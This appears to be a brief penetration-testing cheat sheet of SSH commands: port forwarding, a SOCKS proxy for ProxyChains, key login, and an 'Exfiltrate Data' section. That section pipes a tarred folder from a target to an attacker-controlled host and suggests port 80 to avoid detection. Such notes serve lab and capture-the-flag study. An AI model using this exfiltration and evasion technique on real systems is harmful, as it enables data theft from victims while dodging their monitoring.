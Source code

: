 # Create a Tunnel
```bash
# Send local 8080 traffic to host 172.17.0.2
ssh -L 8080:172.17.0.2:8080 aubreanna@10.10.164.248
```

# Over ProxyChains
```bash
ssh -f -N -D 9050 <User>@<Host> -4
```

# Connect with RSA Key
```bash
ssh <User>@<Host> -i id_rsa
```

# Exfiltrate Data
```bash
# From target, tar folder containing data and pipe to SSH.
# Port 80 may be best, to avoid detection on port 22.
# Process will untar file to /tmp/datafolder.

tar zcf - /tmp/datafolder | ssh <user>@<Attack IP Address> "cd /tmp; tar zxpf -"
```
### Data Exfiltration References
[BASH Shell Redirect stderr To stdout (redirect stderr to a File)](https://www.cyberciti.biz/faq/redirecting-stderr-to-stdout/)
